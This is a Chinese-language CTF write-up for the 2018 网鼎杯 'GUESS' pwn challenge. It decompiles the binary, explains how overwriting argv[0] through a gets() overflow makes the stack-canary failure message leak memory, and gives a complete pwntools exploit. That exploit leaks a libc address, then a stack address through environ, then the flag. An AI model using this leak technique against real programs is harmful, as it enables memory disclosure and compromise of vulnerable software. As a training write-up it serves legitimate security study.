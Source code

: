 # 网鼎杯-2018-GUESS

### 0x0 前置补偿

1. 当开启CANARY保护之后，CANARY被破坏之后就会来到这个函数：

   ```c
   void __attribute__ ((noreturn)) __stack_chk_fail (void)
   {
     __fortify_fail ("stack smashing detected");
   }
   
   void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
   {
     /* The loop is added only to keep gcc happy.  */
     while (1)
       __libc_message (2, "*** %s ***: %s terminated\n",
                       msg, __libc_argv[0] ?: "<unknown>");
   }
   ```

   他会打印`argv[0]`。如果，把它更改为为某个函数的GOT就会泄漏libc地址。修改为某变量的地址，就会泄漏这个变量的内容。

2. `environ`变量存储了栈上环境变量的地址。可以拿来泄漏栈地址。

### 0x1 分析

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __WAIT_STATUS stat_loc; // [rsp+14h] [rbp-8Ch]
  int v5; // [rsp+1Ch] [rbp-84h]
  __int64 count; // [rsp+20h] [rbp-80h]
  __int64 max; // [rsp+28h] [rbp-78h]
  char buf; // [rsp+30h] [rbp-70h]
  char s2; // [rsp+60h] [rbp-40h]
  unsigned __int64 v10; // [rsp+98h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  max = 3LL;
  LODWORD(stat_loc.__uptr) = 0;
  count = 0LL;
  init_proc();
  HIDWORD(stat_loc.__iptr) = open("./flag.txt", 0, a2);
  if ( HIDWORD(stat_loc.__iptr) == -1 )
  {
    perror("./flag.txt");
    _exit(-1);
  }
  read(SHIDWORD(stat_loc.__iptr), &buf, 0x30uLL);
  close(SHIDWORD(stat_loc.__iptr));
  puts("This is GUESS FLAG CHALLENGE!");
  while ( 1 )
  {
    if ( count >= max )
    {
      puts("you have no sense... bye :-) ");
      return 0LL;
    }
    v5 = Fork();
    if ( !v5 )
      break;
    ++count;
    wait((__WAIT_STATUS)&stat_loc);
  }
  puts("Please type your guessing flag");
  gets(&s2);
  if ( !strcmp(&buf, &s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0LL;
}
```

前期并没有什么漏洞，我们可以猜测flag，但是被限制次数。所以我们不能通过爆破来爆破出flag。

后面倒是有个漏洞`gets()`，可以覆盖main 的 ret，但是，有CANARY的保护，再往后没有其他漏洞了。

#### 漏洞利用

这里可以使用`__stack_chk_fail()`函数，来泄漏任意地址。由于`gets()`函数可以让我们输入任意长度的数据所以，我们可以覆盖`argv[0]`，来泄漏任意数据。

1. 通过已有的GOT来泄漏libc

   ```shell
   0c:0060│ rdx rsi  0x7fffffffe470 ◂— 'asdasdadsadasdsa'
   [···]
   2d:0168│          0x7fffffffe578 —▸ 0x4008d9 ◂— hlt
   2e:0170│          0x7fffffffe580 —▸ 0x7fffffffe588 ◂— 0x1c
   2f:0178│          0x7fffffffe588 ◂— 0x1c
   30:0180│ r13      0x7fffffffe590 ◂— 0x1
   31:0188│          0x7fffffffe598 —▸ 0x7fffffffe7d0 ◂— '/root/pwn/wdb2018/guess/GUESS'
   32:0190│          0x7fffffffe5a0 ◂— 0x0
   33:0198│          0x7fffffffe5a8 —▸ 0x7fffffffe7ee ◂— 'LC_TERMINAL_VERSION=3.3.8'
   34:01a0│          0x7fffffffe5b0 —▸ 0x7fffffffe808 ◂— 'LANG=en_US.UTF-8'
   35:01a8│          0x7fffffffe5b8 —▸ 0x7fffffffe819 ◂— 'LC_TERMINAL=iTerm2'
   
   pwndbg> distance 0x7fffffffe470 0x7fffffffe598
   0x7fffffffe470->0x7fffffffe598 is 0x128 bytes (0x25 words)
   pwndbg>
   ```

   得到输入位置和`argv[0]`的偏移，来构造`payload`来泄漏libc。

2. 然后通过`environ`变量来泄漏栈地址

   通过`libc`可以得到`environ`的地址，把`argv[0]`再次更改成`environ`，可以泄漏出栈地址。

   更改之前：

   ```shell
   0x7fff06598598 —▸ 0x7fff065987e2 ◂— 0x53534555472f2e /* './GUESS' */
   ```

   更改之后：

   ```shell
   0x7fff06598598 —▸ 0x7f09d32a6f38 (environ)
   ```

3. 最后通过栈地址和`flag`的偏移来泄漏`flag`。

   更改之前：（拿了一个新的进程来调试的）

   ```shell
   0x7ffc71813198 —▸ 0x7ffc718137e2 ◂— 0x53534555472f2e /* './GUESS' */
   ```

   更改之后：

   ```shell
   0x7ffc71813198 —▸ 0x7ffc71813040 ◂— 'flag{hahahhahah}\n'
   ```

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

p = process('./GUESS')
# p = remote('node3.buuoj.cn', 29156)
elf = ELF('./GUESS')
offset = 0x128
environ_offset = 0x168

def debug(p, cmd):
  gdb.attach(p, cmd)
  pause()

# leak libc
payload = 'a' * offset + p64(elf.got['gets'])
p.sendlineafter('Please type your guessing flag\n', payload)
p.recvuntil('*** stack smashing detected ***: ')
gets_addr = u64(p.recvuntil('\x7f').ljust(8, '\x00'))
libc = LibcSearcher('gets', gets_addr)
libc_base = gets_addr - libc.dump('gets')
environ = libc_base + libc.dump('environ')
success('gets : ' + str(hex(gets_addr)))
success('libc : ' + str(hex(libc_base)))
success('environ : ' + str(hex(environ)))
# debug(p, 'environ\n')

# leak stack
payload = 'a' * offset + p64(environ)
p.sendlineafter('Please type your guessing flag\n', payload)
p.recvuntil('*** stack smashing detected ***: ')
stack = u64(p.recvuntil('\x7f').ljust(8, '\x00'))
flag = stack - environ_offset
success('stack environ : ' + str(hex(stack)))
# debug(p, '\n')

# leak flag
payload = 'a' * offset + p64(flag)
p.sendlineafter('Please type your guessing flag\n', payload)
p.recvuntil('*** stack smashing detected ***: ')
p.interactive()
```

